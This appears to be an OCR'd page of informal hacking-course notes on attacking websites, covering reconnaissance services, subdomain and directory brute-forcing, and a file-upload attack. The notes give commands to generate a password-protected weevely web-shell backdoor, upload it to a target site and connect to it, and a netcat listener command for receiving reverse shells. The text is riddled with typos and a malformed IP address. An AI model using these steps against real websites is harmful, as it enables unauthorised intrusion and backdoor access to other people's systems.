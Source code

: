 ### netcraft site report

go to toolbar.netcraft.com/site_repot?url= , it shows technologies used on the target

### robtex dns lookup

go to robtex.com , it shows comprehensive info about the target website

### exploit database

go to exploit-db.com to search for possible exploits

### names pointing to the same 

we can either use robtex shared names pointing to same ip or go to bing and google for ip:targetIP

### knock for sub domains

download knock from github and run it

`pyhton knock.py <target domain name>`

### drib tool

frib tool helps to find files and directories in target website 

`drib <target web site address> <wordlist directory> <options>`

withput options

`drib <target web site address> <wordlist directory>`

default wordlist

`drib <target web site address>`

for more info run

`man drib`

### file upload vulnerability using weevly tool

generating backdoor

`weevly generate <password> <filename and url/ directory to save the file>`

then upload generated file and connect to it

`weevly <url to file> <password>`

find out how to use weevly

`help`

The following examples assums the hacker IP is 10.20.14 and use port 8080 for the connection.
Therefore in all f these cases you need to listen for port 8080 using the foolowing command

`nc -vv -l -p 8080`
